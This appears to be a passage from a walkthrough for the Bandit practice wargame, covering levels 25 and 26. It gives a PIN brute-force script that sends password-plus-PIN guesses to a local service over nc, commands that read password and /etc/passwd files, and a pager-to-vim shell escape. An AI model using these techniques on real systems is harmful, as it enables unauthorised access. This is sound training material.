 wait for a minute,

```shell
cat password.txt
```

## Level 25

```shell
vi script.sh
```

code for script.sh:

```shell
#!/bin/bash

for i in {0..9}
do
    for j in {0..9}
    do
        for k in {0..9}
        do
            for l in {0..9}
            do
                echo $(cat /etc/bandit_pass/bandit24) $i$j$k$l >> brut.txt
            done
        done
    done
done
```

then, run:

```shell
bash script.sh; cat brut.txt | nc localhost 30002 > key.txt; cat key.txt | tail
```

## Level 26

amazing level

```shell
cat /etc/passwd | grep bandit26; cat /usr/bin/showtext; ssh -i bandit26.sshkey bandit26@localhost
```

make sure you decrease the size of the terminal so that the `more` command doesn't executed completely

type v to access vim, then type,

```shell
:e /etc/bandit_pass
```

copy password, then type `:set shell:/bin/bash` and `:shell`

## Level 27
